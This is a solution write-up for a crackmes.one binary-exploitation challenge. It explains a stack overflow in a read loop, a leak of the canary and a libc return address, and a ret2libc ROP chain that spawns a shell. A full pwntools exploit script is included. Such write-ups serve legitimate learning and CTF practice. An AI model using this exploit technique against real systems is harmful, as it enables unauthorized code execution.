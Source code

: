 # Solution to [BitFriends's no_format](https://crackmes.one/crackme/5f737a1c33c5d4357b3b0355)

To begin, it's important to understand the structure of the stack, which typically resembles this:

[0xffffffffffffffff] Top of the stack

[libc ret address] 8 bytes
[libc         rbp] 8 bytes
[     canary     ] 8 bytes
[     buffer     ] 8 bytes
[     buffer     ] 8 bytes
[     buffer     ] 8 bytes
[     buffer     ] 8 bytes
[     buffer     ] 8 bytes
[     buffer     ] 8 bytes
[     buffer     ] 8 bytes
[     buffer     ] 8 bytes
[     buffer     ] 8 bytes

[0x0000000000000000] Bottom of the stack

Additionally, the decompiled binary appears to be structured as follows:

```c

undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  do {
    memset(local_58,0,0x40);
    read(0,local_58,0x280);
    puts(local_58);
    iVar1 = strcmp(local_58,"exit\n");
  } while (iVar1 != 0);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```

After examining the canary and the libc return address in GDB, it was observed that the first byte of the canary is typically `\x00`. By overriding the first byte of the canary, it becomes possible to leak the canary value by sending 73 bytes of data and then reading the output. Similarly, the libc return address can be leaked by sending 88 bytes of data (72 bytes for the buffer, 8 bytes for the canary, and 8 bytes for the pushed `$rbp`). Upon inspecting the return address in libc, it was found to correspond to something named `__libc_start_call_main`, differing by `0x26fe0` from the system function. Therefore, the following code was utilized to update the libc address:

```python
difference = (libc_ret+0x26fe0) - (libc.functions['system'].address) # libc_ret+0x26fe0 is the offset of system in libc
libc.address += difference
```

We're nearly there! Now, to achieve our goal of obtaining a shell, we need to construct a Return-Oriented Programming (ROP) chain. However, we must account for one last detail: stack alignment. To ensure proper alignment, we'll include a return address in the ROP chain. Once this is in place, we can enjoy our shell :)

Feel free to incorporate print statements or use GDB to delve deeper into the stack, canary, and libc! Happy hacking!

```python
from pwn import *
import pwnlib.gdb


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
rop = ROP(libc)
p = process('./no_format')

# # for debugging
# p = pwnlib.gdb.debug('./no_format', '''
# layout asm
# b *main
# b *main+40
# b *main+125
# continue
# ''')

# function to read n lines
def read_line(i, decode = True):
    for _ in range(i):
        line =	p.recvline()
    if decode:
        return line.decode('utf-8', errors='replace')
    return line

# leak canary
payload = 72 * b'A' + b'A' 
p.send(payload)
canary = b'\x00' + read_line(1, False)[73:80]

# rbp
rbp = p64(1)


# leak libc ret address
payload = 72 * b'A' + b'B' * 8 + b'C' * 8 
p.send(payload)
libc_ret = read_line(1,False)[88:-1]
libc_ret = int.from_bytes(libc_ret, byteorder='little')

# calculate libc base address
difference = (libc_ret+0x26fe0) - (libc.functions['system'].address) # libc_ret+0x26fe0 is the offset of system in libc
libc.address += difference

# system (ROP)
system = libc.functions['system'].address
binsh = next(libc.search(b'/bin/sh\x00'))
payload = 72 * b'A' + canary + rbp + p64(rop.rdi[0]+difference) + p64(binsh) + p64(rop.ret.address+difference) + p64(system)
p.send(payload)
print(read_line(1))

p.send("exit\n")
print("Shell: ")

p.interactive()
```